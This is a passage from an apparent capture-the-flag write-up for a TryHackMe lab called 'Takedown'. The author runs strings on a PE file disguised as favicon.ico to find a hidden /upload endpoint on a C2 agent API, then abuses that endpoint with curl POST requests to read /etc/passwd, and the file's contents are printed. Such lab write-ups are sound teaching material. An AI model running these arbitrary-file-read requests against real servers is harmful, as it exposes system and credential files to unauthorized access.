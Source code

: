 ```
└─# curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5" http://takedown.thm.local/api/agents/okpj-pigz-ypeu-fwaf/command
id 
```

**Also, after some enumeration in `strings` `favicon.ico`  PE file, I also found that there is a `/upload` page.**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# strings favicon.ico 
[...]
/upload
[...]
filename
[...]
@application/json
@Content-Type
```

**Let's try that in `curl`!**

> Note: Since there is a string called `filename`, I assume that this `/upload` page allows me to read or download any files.

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5" -H "Content-Type: application/json" -X POST -d '{"filename":"/etc/passwd"}' http://takedown.thm.local/api/agents/okpj-pigz-ypeu-fwaf/upload
<!doctype html>
<html lang=en>
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```

Status 500? Maybe the POST parameter name is wrong? Let me try **`file` parameter**:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5" -H "Content-Type: application/json" -X POST -d '{"file":"/etc/passwd"}' http://takedown.thm.local/api/agents/okpj-pigz-ypeu-fwaf/upload 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
